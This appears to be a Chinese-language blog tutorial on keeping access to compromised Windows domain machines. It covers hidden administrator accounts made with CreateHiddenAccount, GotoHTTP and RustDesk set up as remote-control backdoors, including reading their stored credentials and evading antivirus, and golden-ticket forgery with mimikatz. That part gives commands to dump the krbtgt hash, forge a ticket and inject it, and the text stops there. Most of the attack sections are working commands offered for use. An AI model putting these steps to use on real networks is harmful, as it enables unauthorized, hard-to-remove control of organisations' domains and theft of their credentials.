# 1. 前置

在上篇权限维持中，有一个知识点出现了错误，基于机制账号启动—DSRM，里面的用户应该使用的是用户是krbtgt账号，不应该随便使用一个用户，当时测试的时候，是由于在域用户内找了很久都没找到这个用户，今天在测试的时候，使用查找是找到了这个用户，但是最关键的问题就是在域内用户列表中依旧是找不到的，虽然被停用，但应该也不至于找不到吧。

注意基于机制账号启动—DSRM要使用krbtgt账号来测试，由于krbtgt是密钥分发中心的账号，通常也不会有人去管理这个用户，而且将DSRM的密码同步过来后，就可以使用krbtgt账号来进行登陆。

## 1.1. 初始问题

一开始的问题就是，重置这里出现了问题，我查阅了网上一大堆文章，每篇文章就截了个图，或者直接说，这里启用就可以了，你写你*文章啊，给鬼看的啊。

其实这个原因就是krbtgt这个用户被禁用了，同时你直接在ad用户与计算机中还找不到这个用户，使用查找找到了，还不能修改，提示本地账户无权限。



### 1.1.1. 解决办法

这里去在AD管理中心能够找到这个用户，不过依旧启用不了，但是将密码修改为永不过期就能够解决这个问题了。



# 2. 隐藏用户

隐藏用户是在日常留后门中最常用的一种操作，可以将用户隐藏起来，来实现不被察觉。这里默认情况使用命令添加的隐藏用户，是能够被查询到的并且删除的，但是使用工具添加的隐藏用户就算被查询到，但是是无法被删除的。

[CreateHiddenAccount](https://github.com/wgpsec/CreateHiddenAccount)

## 2.1. 工具原理

其实这个工具的原理就是在创建用户的时候添加$符号，并且将该用户的用户组设定为空，不过在单域环境中用户组是空，域环境中用户组是administrator组，导致无法删除。

## 2.2. 案例操作

这里就简单的将工具上传至目标靶机上进行执行，但是目前这个工具不免杀了，基本上就是下载就是被杀。

这里我们测试单机情况与域情况。

### 2.2.1. 单机添加用户

这里我们测试单机添加与查询。

#### 2.2.1.1. 工具添加用户

```
CreateHiddenAccount_upx_v0.2.exe -u yaya -p admin@123   ##添加用户
```



#### 2.2.1.2. 工具查看隐藏用户

这里是使用这个工具自带的查询来进行查询隐藏用户。

```
CreateHiddenAccount_upx_v0.2.exe -c
```



#### 2.2.1.3. 本地查看隐藏用户

可以看到从本地确实也能够看到隐藏用户，但是你会发现，是无法删除这个用户的，其实这个就是由于之前说的，在单机版中用户的用户组什么都没添加，所以导致无权进行删除。



### 2.2.2. 域内添加用户

这里查询域内添加与查询。

#### 2.2.2.1. 工具添加用户

```
CreateHiddenAccount_upx_v0.2.exe -u yaya -p admin@123
```



#### 2.2.2.2. 工具查看隐藏用户

```
CreateHiddenAccount_upx_v0.2.exe -c
```



#### 2.2.2.3. 本地查看隐藏用户

可以看到这里是可以删除的，而单机版中是直接点击删除就提示禁止删除。



## 2.3. 总结

总的来说隐藏用户目前的手段基本上服务器出现问题，第一件事都是查询隐藏用户，所以这个算是后门的一种方式，但是现在再来看已经不是那么好用了。

# 3. 远控软件

远控软件都不陌生，比如向日葵、todesk等，都是远控软件，这类远控软件都不会被杀毒软件杀，这是由于这些产品都属于远程办公类软件，杀毒软件厂家基本上都把这些软件都列入白名单中的，所以各种操作都会被杀毒软件检测。

而且原先向日葵是存有那种便携版的，不需要安装即可使用，但是后续版本高，同时RCE漏洞，导致向日葵现在都需要进行安装，而你去建立后面，直接使用向日葵的话，你需要安装，同时目标风险很大，所以在实际过程中，尽量使用一些小而轻巧的软件来实现远程控制，从而达到权限维持。

不过也还是那句话，如果服务器经常有人巡检，像这类工具，你上传基本上就会被查到，太明显了。

## 3.1. GotoHTTP

GotoHTTP Windows版本是绿色软件，点击右边链接下载软件包，文件大小仅数百K，只有一个文件在软件包中，将其解压到你电脑的某个位置，并双击运行它, 将会自动连接到服务器并显示这台电脑的ID及控制码。

[GotoHTTP](https://gotohttp.com/goto/download.12x)

### 3.1.1. 运行软件

Windows7运行后会弹出这个弹窗，可能在命令行上操作会比较麻烦，同时Windows7有，那么意味着可能Windows server 2008这些老版的服务器都会出现，不过在Windows10上操作是没问题的。



### 3.1.2. 远控读取文件

你运行完会发现，在该软件目录下会创建一个配置文件，届时你使用CS去读取一下这个配置文件就可以了，这个配置文件中会存在账户密码的。



### 3.1.3. 远控桌面

登陆下面的网站，在网站上面会有一个输入账号密码的地方，这里输入上去就可以了，无需下载上面客户端，服务端的，现在还要收费了，尴尬....

[远程桌面](https://gotohttp.com/)



### 3.1.4. 总结

这个工具存在一个问题就是有网络的情况下才能够使用，而在无网络的情况下是无法使用的，同时流量是走https协议，需要目标主机开放443端口。

简单来说就是：

有网络，无限制，可以使用。

有网络，如果防火墙限制了443端口，无法使用。

无网络，无限制，可以使用，但是可能需要转发，比较麻烦。

无网络，有限制，基本上就是无法使用。

同时如果目标主机处于待机状态，如果被唤醒是会被防火墙拦截的。

## 3.2. RustDesk

远程桌面软件，开箱即用，无需任何配置。您完全掌控数据，不用担心安全问题。

[RustDesk](https://github.com/rustdesk/rustdesk)

### 3.2.1. 远程版RustDesk

这里的远控版意思就是可以从网络上进行连接，简单来说就是有网络情况下使用。

#### 3.2.1.1. 运行软件

这个工具默认打开是英文的，不过是可以在设置中修改为中文的。



#### 3.2.1.2. 读取远控文件

这个工具的账号密码文件在`C:\Users\用户名\AppData\Roaming\RustDesk\config\RustDesk.toml`下，不过很可惜，新版的这个工具可能无法读取文件了，老版是还有的。



#### 3.2.1.3. 远控桌面

这里可以看到是成功连接上对方的桌面了，但这里由于我是虚拟机，比较卡，所以画面传输的比较慢。



### 3.2.2. 本地版RustDesk

本地版的意思就是无需网络，只要两个软件在同一个局域网内，都可以进行连接。

#### 3.2.2.1. 配置软件

同样这里，先去读取一下文件`C:\Users\用户名\AppData\Roaming\RustDesk\config\RustDesk2.toml`，添加下列内容。

```
direct-server = 'Y'      ##开启IP连接
direct-access-port = '8443' ##端口   
```



#### 3.2.2.2. 远程桌面

这里我们是使用域内环境，其实也就是不出网情况，这里可以看到，直接在输入对方的ID位置，输入IP加端口即可。

```
IP:8443  ##8443是你再配置文件中修改的端口地址。
```



### 3.2.3. 总结

总体来说这个工具要比GotoHTTP要方便很多，最主要的功能就是能够脱离网络实现连接，同时可以绕过有杀软的环境。

# 4. 基于服务TGT—黄金白银票据

Kerberos协议是Windows域内认证常用的协议，整体的认证流程也就是黄金票据与白银票据的攻击场景。整体的流程较为复杂，理解起来也不是看完就能了解的。

[参考文章](https://cloud.tencent.com/developer/article/2130133)

注意黄金票据与白银票据归属在权限维持阶段，而不是横向移动阶段。

## 4.1. 黄金票据

黄金票据原理就是通过伪造krbtgt用户的TGT票据，krbtgt用户是域控中用来管理发放票据的用户，拥有了该用户的权限，就可以伪造系统中的任意用户，同时可以访问目标主机中任何服务。

在Kerberos认证中,Client通过AS(身份认证服务)认证后,AS会给Client一个Logon Session Key和TGT,而Logon Session Key并不会保存在KDC中，krbtgt的NTLM  Hash又是固定的,所以只要得到krbtgt的NTLM Hash，就可以伪造TGT和Logon Session  Key来进入下一步Client与TGS的交互。而已有了黄金票据后,就跳过AS验证,不用验证账户和密码,所以也不担心域管密码修改。

利用条件：获取域控的权限、krbtgt用户的hash值。

### 4.1.1. 操作演示

这里我就不在CS中去操作了，直接实际操作，如果出现一些无法在CS中完成的，我会进行说明。

#### 4.1.1.1. 获取域名与SID

注意这里的SID最后面的4位是不需要的。

```
whoami    ##获取本地账户
net time /domain   ##获取域名
whoami /all      ##获取sid：S-1-5-21-1695257952-3088263962-2055235443
```



#### 4.1.1.2. 获取KRBTGT账户NTLM

这里需要使用mimikatz来进行获取。

```
privilege::debug
lsadump::lsa /patch /user:krbtgt   ##558ae7f88589153355cbeb046ac696df
```



#### 4.1.1.3. 伪造用户名

这里的用户名随便伪造一个，我这里伪造成yuto吧。

```
mimikatz kerberos::golden /user:yuto /domain:xiaodi.local /sid:S-1-5-21-1695257952-3088263962-2055235443 /krbtgt:558ae7f88589153355cbeb046ac696df /ticket:pj
```



#### 4.1.1.4. 导入内存

可以看到这里找一台域内主机，将这个票据导入后就能够服务域控了。

```
kerberos::ptt pj
```

